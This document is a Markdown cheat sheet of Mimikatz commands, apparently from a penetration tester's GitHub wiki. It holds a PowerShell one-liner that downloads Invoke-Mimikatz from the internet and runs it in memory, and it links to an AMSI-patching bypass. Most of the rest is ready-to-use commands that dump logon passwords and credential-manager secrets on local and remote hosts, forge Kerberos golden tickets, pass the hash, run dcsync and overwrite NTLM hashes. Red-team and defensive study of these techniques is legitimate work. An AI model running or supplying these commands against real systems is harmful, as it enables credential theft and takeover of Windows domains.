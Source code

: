 # PowerShell
## Add to PowerShell
- [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

## Invoke-Mimikatz custom commands
```powershell
Invoke-Mimikatz -Command '"log mimi.log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```

## Invoke-Mimikatz custom commands on remote machines
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::credman"' -ComputerName @("<hostname1>.domain.local", "<hostname2>.domain.local")
```

# Lists all available provider credentials
```console
mimikatz "log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

# kerberos
## Make a Golden ticket
```console
kerberos::golden /user:<username> /domain:<domain> /sid:<sid> /aes256:<aes256_hmac> /id:<user_id> /groups:<group_id> /startoffset:0 /endin:600 /renewmax:10080 /ticket:<user.domain.kirbi>
```

SID can be found by [wmic](https://github.com/okazymyrov/piki/blob/master/wmic.md#get-sids-of-domains) or 
```console
whoami /all
```

# sekurlsa
## Path-the-hash
```console
privilege::debug
sekurlsa::pth /user:<user> /aes256:<aes256_hmac> /domain:<domain> /run:cmd.exe
```

# lsadump

## dcsync
```console
log <domain>.<user>.log
lsadump::dcsync /domain:<domain>.local /user:<domain>\<user>
```

## changentlm
> **Note**
> While lsadump::setntlm seems to work multiple times for the same user account, this is not the case for lsadump::changentlm ([link](https://github.com/gentilkiwi/mimikatz/issues/201#issuecomment-483788010)).
 
### Password string 
```console
lsadump::changentlm /server:<dc>.<domain>.local /user:<user> /oldntlm:<ntlm> /newpassword:<password>
```
### NTLM
```console
lsadump::changentlm /server:<dc>.<domain>.local /user:<user> /oldntlm:<ntlm> /newntlm:<rc4>
```

## setntlm
```console
lsadump::setntlm /server:<dc>.<domain>.local /user:<user> /ntlm:<ntlm>
```

# token
## elevate
```console
token::elevate [/user:<user>] [/process:<id>]
```

